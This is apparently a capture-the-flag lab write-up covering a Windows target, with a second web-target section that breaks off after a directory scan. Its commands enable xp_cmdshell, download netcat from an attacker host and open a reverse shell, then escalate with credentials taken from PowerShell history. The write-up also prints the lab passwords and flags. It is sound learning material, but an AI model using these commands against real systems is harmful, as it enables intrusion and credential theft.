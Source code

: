 ## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP
xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
   ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
    ```

In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3


9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe
.\winPEASx64.exe
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

   We got the password,
   
   $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
   
11.  Login as Administrator

     We use impacket pasexec.py:

     ```bash
     python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
     ```

     or use the Evil-WinRm:

    ```bash
    evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
    ```

    After this, we can read the root flag:

    ```bash
    cd C:\Users\Administrator\Desktop
    type root.txt
    ```

    Get the root flag: b91ccec3305e98240082d4474b848528.

     ![scan port](./image/Task5_get_root.jpg)

## Task 2

### 🛠️The process of solving task2

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can log in the page successfully.

   
   
   


     
    
